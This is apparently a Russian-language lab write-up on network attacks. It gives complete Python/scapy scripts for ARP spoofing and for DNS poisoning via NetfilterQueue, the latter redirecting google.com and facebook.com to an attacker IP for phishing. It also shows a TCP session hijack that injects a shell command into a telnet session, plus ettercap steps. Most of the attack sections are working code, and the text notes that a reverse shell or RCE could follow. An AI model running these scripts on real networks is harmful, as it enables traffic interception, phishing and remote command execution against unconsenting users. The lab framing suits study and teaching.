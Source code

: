 # ARP Spoofing

![](https://i.imgur.com/MWOKU0f.png)

Для совершения атаки необходимо:
Компьютер злоумышленника, в моей сети это машина Kali Linux в VLAN3;
Компьютер жертвы - Linux Mint в том же VLAN3.
Чтобы траффик проходил через тачку злоумышленника, необходимо маршрутизировать пакеты, для этого на Kali поменяем флаг:
echo 1 > /proc/sys/net/ipv4/ip_forward

Теперь все готово, включаем сеть.
Смотрим айпи адреса, мак адреса устройств Kali и Mint, их arp таблицы:

![](https://i.imgur.com/CAHlkK2.png)

Видим, что у жертвы в таблице прописан гитвей(192.168.3.1) и его мак адрес. Нам нужно послать широковещательный ARP запрос, чтобы поменять mac адрес в arp таблицах гитвея и машины жертвы на mac адрес Kali.
Будем использовать написаный мной скрипт на Python:
```
"""
My spoofer
"""
import scapy.all as scapy
from scapy.layers.l2 import ARP, Ether
import time
import argparse


def args():
    parser = argparse.ArgumentParser("spoofer")
    parser.add_argument("-v", "--victim", required=True)
    parser.add_argument("-r", "--router", required=True)
    return parser.parse_args()


def get_mac(ip):
    """returns mac for ip"""
    arp = ARP(pdst=ip)
    brd = Ether(dst="ff:ff:ff:ff:ff:ff")
    packet = brd / arp
    ans, _ = scapy.srp(packet, verbose=0)  # (sent, received)
    # ans[0][1].show()
    try:
        return ans[0][1].hwsrc
    except Exception as e:
        return None


def spoof(victim, router):
    victim_mac = get_mac(victim)
    router_mac = get_mac(router)
    if not victim_mac or not router_mac:
        print("mac address not found for ips")
        exit(0)

    packet_to_victim = ARP(pdst=victim, op=2, hwdst=victim_mac, psrc=router)  
    packet_to_router = ARP(pdst=router, op=2, hwdst=router_mac, psrc=victim)  
    counter = 1
    while True:
        print(f"\r{'*' * (counter % 120)}", end="")
        counter += 1
        scapy.send(packet_to_router, verbose=False)
        scapy.send(packet_to_victim, verbose=False)
        time.sleep(5)


if __name__ == "__main__":
    options = args()
    spoof(options.victim, options.router)
```
После запуска скрипта, снова выводим таблицу у тачки Mint и видим, что мас адреса KAli и роуетра одинаковые

![](https://i.imgur.com/pckadLi.png)

Дальше уже можно сниффать траффик с машины злоумышленника.
## ARP Spoofing & DNS Poisoning

Для этого нам понадобится новый скрипт, который подменяет ответы от DNS сервера,я взял готовый на основе scapy, суть в том, что мы перехватываем траффик с помощью арп спуффера+меняем запросы DNS типа, то есть условно, если жертва отправляет nslookup или ping на google.com, то запрос жертву можно будет перенаправить на ip злоумышленника. Это может быть фишинговый сайт.
Для этого чтобы перенаправлять нужные пакеты, пропишем нужное правило в файрволл iptables:
iptables -I FORWARD -j NFQUEUE --queue-num 0
Теперь можно обрабатывать DNS пакеты с помощью iptables.
```
from scapy.all import *
from netfilterqueue import NetfilterQueue
import os

# DNS mapping records, feel free to add/modify this dictionary
# for example, google.com will be redirected to 192.168.1.100
dns_hosts = {
    b"www.google.com.": "192.168.3.2",
    b"google.com.": "192.168.3.2",
    b"facebook.com.": "192.168.3.2"
}


def process_packet(packet):
    """
    Whenever a new packet is redirected to the netfilter queue,
    this callback is called.
    """
    # convert netfilter queue packet to scapy packet
    scapy_packet = IP(packet.get_payload())
    if scapy_packet.haslayer(DNSRR):
        # if the packet is a DNS Resource Record (DNS reply)
        # modify the packet
        print("[Before]:", scapy_packet.summary())
        try:
            scapy_packet = modify_packet(scapy_packet)
        except IndexError:
            # not UDP packet, this can be IPerror/UDPerror packets
            pass
        print("[After ]:", scapy_packet.summary())
        # set back as netfilter queue packet
        packet.set_payload(bytes(scapy_packet))
    # accept the packet
    packet.accept()
    

def modify_packet(packet):
    """
    Modifies the DNS Resource Record `packet` ( the answer part)
    to map our globally defined `dns_hosts` dictionary.
    For instance, whenever we see a google.com answer, this function replaces 
    the real IP address (172.217.19.142) with fake IP address (192.168.1.100)
    """
    # get the DNS question name, the domain name
    qname = packet[DNSQR].qname
    if qname not in dns_hosts:
        # if the website isn't in our record
        # we don't wanna modify that
        print("no modification:", qname)
        return packet
    # craft new answer, overriding the original
    # setting the rdata for the IP we want to redirect (spoofed)
    # for instance, google.com will be mapped to "192.168.1.100"
    packet[DNS].an = DNSRR(rrname=qname, rdata=dns_hosts[qname])
    # set the answer count to 1
    packet[DNS].ancount = 1
    # delete checksums and length of packet, because we have modified the packet
    # new calculations are required ( scapy will do automatically )
    del packet[IP].len
    del packet[IP].chksum
    del packet[UDP].len
    del packet[UDP].chksum
    # return the modified packet
    return packet


QUEUE_NUM = 0
# insert the iptables FORWARD rule
os.system("iptables -I FORWARD -j NFQUEUE --queue-num {}".format(QUEUE_NUM))
# instantiate the netfilter queue
queue = NetfilterQueue()
try:
    # bind the queue number to our callback `process_packet`
    # and start it
    queue.bind(QUEUE_NUM, process_packet)
    queue.run()
except KeyboardInterrupt:
    # if want to exit, make sure we
    # remove that rule we just inserted, going back to normal.
    os.system("iptables --flush")

```
Для начала используем скрипт для арпспуффинга. Теперь запускаем новый скрипт.
У меня к сожалению не получилось, но мы должны были подменить запрос, тем самым жертва введя в запрос к примеру google.com перенаправить на ip, которйы прописал злоумшыленник в скрипте.
Это можно сделать c помощью готовой утилиты на Kali Linux ettercap.
С ettercap все просто, указываем два хоста, жертва и роутер,

![](https://i.imgur.com/1GRs9Bu.png)

Задаем в конфиге на какой ip будем менять dns ответ:

![](https://i.imgur.com/KcASvGe.png)

После этого подключаем плагин для сниффа и запускаем

![](https://i.imgur.com/R7Zbn5d.png)

Жертва пингует домен, ip меняется на мой. Если открыть домен, то открывается сайт злоумышленника.

![](https://i.imgur.com/SC3mEZr.png)

# TCP Hijacking
Начать можно со сниффинга траффика через WireShark с помощью атаки ARP Spoofing.
После того, как мы перехватываем пакеты жертвы, на моей схеме это Linux Mint, который подключается к Ubuntu(telnet-server) в другом VLAN. Попробуем перехватить последний TCP пакет, узнать необходимые данные для подделки запроса:

![](https://i.imgur.com/RkG3Ieb.png)

С помощью кода:
```
from scapy.all import*

IPLayer = IP(src="192.168.3.3", dst="192.168.2.2")
TCPLayer = TCP(sport=33752, dport=23, flags="A", seq=1960141434, ack=748143598)

data = "\n touch /home/osboxes/you_hacked.txt \n"
pkt = IPLayer/TCPLayer/data
ls(pkt)
send(pkt, verbose =0)

```
Попробуем создать файлик на сервере.
Результат:
На машине ubuntu(telnet server) появился файл

![](https://i.imgur.com/A5OQCHL.png)

Также можно прокинуть reverse shell, сделать RCE.
